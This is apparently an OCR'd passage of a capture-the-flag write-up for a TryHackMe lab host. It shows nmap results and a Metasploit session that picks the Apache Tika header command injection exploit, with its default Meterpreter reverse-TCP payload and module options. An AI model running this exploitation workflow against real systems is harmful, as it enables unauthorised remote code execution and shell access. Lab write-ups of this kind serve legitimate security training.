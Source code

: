 ```
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.13 ms cyberlens.thm (10.10.182.102)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.51 seconds
```

Check `searchsploit Apache Tika`

Metasploit

`msfconsole`

```
msf6 > search apache tika
Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > show options

Module options (exploit/windows/http/apache_tika_jp2_jscript):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:por
                                         t[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT      9998             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connec
                                         tions
   SSLCert                     no        Path to a custom SSL certificate (def
                                         ault is randomly generated)
   TARGETURI  /                yes       The base path to the web application
   URIPATH                     no        The URI to use for this exploit (defa
                                         ult is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.
```
